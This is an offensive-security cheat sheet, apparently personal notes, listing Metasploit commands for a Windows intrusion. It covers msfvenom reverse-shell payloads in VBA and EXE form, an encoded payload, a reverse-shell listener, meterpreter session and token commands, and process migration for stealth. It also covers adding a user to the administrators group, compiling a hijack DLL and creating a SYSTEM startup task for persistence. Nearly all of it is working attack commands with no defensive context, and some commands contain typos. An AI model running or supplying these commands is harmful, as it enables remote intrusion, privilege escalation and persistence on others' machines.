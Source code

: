 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup administrators user /add

restarting service:
    
    sc stop dllsvc & sc start dllsvc

command for compile on kali linux:

    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f